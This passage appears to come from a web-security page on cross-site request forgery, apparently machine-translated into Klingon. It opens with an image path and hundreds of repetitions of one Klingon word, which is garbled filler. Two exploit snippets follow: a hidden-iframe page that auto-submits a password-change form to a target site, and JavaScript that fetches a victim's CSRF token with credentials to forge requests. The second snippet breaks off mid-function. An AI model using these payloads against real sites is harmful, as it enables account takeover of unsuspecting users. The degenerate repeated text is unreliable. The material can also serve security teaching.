 vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlh
```html
<--! expl.html -->

<body onload="envia()">
<form method="POST"id="formulario" action="http://aplicacion.example.com/cambia_pwd.php">
<input type="text" id="pwd" name="pwd" value="otra nueva">
</form>
<body>
<script>
function envia(){document.getElementById("formulario").submit();}
</script>

<!-- public.html -->
<iframe src="2-1.html" style="position:absolute;top:-5000">
</iframe>
<h1>Sitio bajo mantenimiento. Disculpe las molestias</h1>
```
### **Qap CSRF Token je 'ej DabwI' je 'ej yIlo'**
```javascript
function submitFormWithTokenJS(token) {
var xhr = new XMLHttpRequest();
xhr.open("POST", POST_URL, true);
xhr.withCredentials = true;

// Send the proper header information along with the request
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");

// This is for debugging and can be removed
xhr.onreadystatechange = function() {
if(xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
//console.log(xhr.responseText);
}
}

xhr.send("token=" + token + "&otherparama=heyyyy");
}

function getTokenJS() {
var xhr = new XMLHttpRequest();
// This tels it to return it as a HTML document
xhr.responseType = "document";
xhr.withCredentials = true;
// true on the end of here makes the call asynchronous
xhr.open("GET", GET_URL, true);
xhr.onload = function (e) {
if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
// Get the document from the response
```
